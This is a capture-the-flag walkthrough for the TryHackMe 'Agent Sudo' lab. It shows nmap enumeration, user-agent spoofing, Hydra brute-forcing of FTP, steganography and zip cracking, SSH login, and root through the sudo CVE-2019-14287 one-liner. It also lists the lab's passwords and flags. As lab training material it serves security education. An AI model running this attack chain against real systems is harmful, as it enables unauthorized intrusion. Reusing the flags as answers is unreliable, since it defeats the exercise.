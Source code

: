 # TryHackMe - Agent Sudo

## 🛠 Setup

Set an environment variable for the IP to simplify commands:

```bash
export IP=10.10.123.138
```

---

## 📌 Task 2: Enumerate

### 🔍 Nmap Scan

```bash
nmap -sC -sV -oN nmap/initial $IP
```

**Results:**

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)                            
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                          
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                 
|_http-title: Annoucement                                                                    
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


**Q. How many open ports?
A. 3

***Q. How you redirect yourself to a secret page?
A. user-agent

Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 

Install the useer agent to chromium
create a new user agent replacing the user agent with "C"

**Results**

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```


**Q. What is the agent name?
A. chris


## 📌 Task 3: Hash cracking and brute-force

**Q. FTP password
A. crystal

Use Hydra since we know the username is `chris`:

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt -u ftp://10.10.123.138
```


**Result:**

```
[21][ftp] host: 10.10.123.138   login: chris   password: crystal
```

Log in and download files:

```bash
ftp chris@10.10.123.138 
mget *
```

We get a message that one of the images has stegonography. Let's install stegseek (because it's super fast)

```bash
sudo apt install stegseek
stegseek cute-alien.jpg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"           
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```
**results**
```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
Now we have an SSH login for `james`.

But first, lets look at cutie.png
stegseek nor steghide support png. instead we'll use binwalk

```bash
binwalk -e cutie.png
```
Extracted a ZIP file called "8702.zip"

Crack the zip password using John the Ripper:

```bash
zip2john 8702.zip > zip.john
john zip.john
```
**Results**

```
alien            (8702.zip/To_agentR.txt)     
```

**Q. Zip file password
A. alien

Now let's open the zip file with the password obtained
```bash
7z e 8702.zip
```
**Results**
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
That was a bit pointless. Anway, we have what we need to answer the questions

**Q. steg password
A. Area51

**Q. Who is the other agent (in full name)?
A. james

**Q. SSH password
A. hackerrules!


## 📌 Task 4: Capture the user flag


**Q. What is the user flag?
A. b03d975e8c92a7c04146cfa7a5a313c7

```bash
ssh james@10.10.123.138
cat user.txt
```

There's the flag and an image. Let's get the image by setting up a web server on our hacked machine

```bash
python3 http.server 1234
In your browser:  
`http://10.10.123.138:1234`
```
Download the image and use Google reverse image search.

**Q. What is the incident of the photo called?
A. Roswell alien autopsy


## 📌 Task 5: Privilege escalation

**Q. CVE number for the escalation 
A. CVE-2019-14287

Check sudo privileges:
```bash
Sudo -l
```
Result:
```
(ALL, !root) /bin/bash
```

a quick google search reveals it's https://www.exploit-db.com/exploits/47502

**Q. What is the root flag?
A. b53a02f55b57d4439e3341834d70c062

Use the exploit:

```bash
sudo -u#-1 /bin/bash
```

**Rooted!**

```bash
cat /root/root.txt
```

**Q. (Bonus) Who is Agent R?
A. DesKel
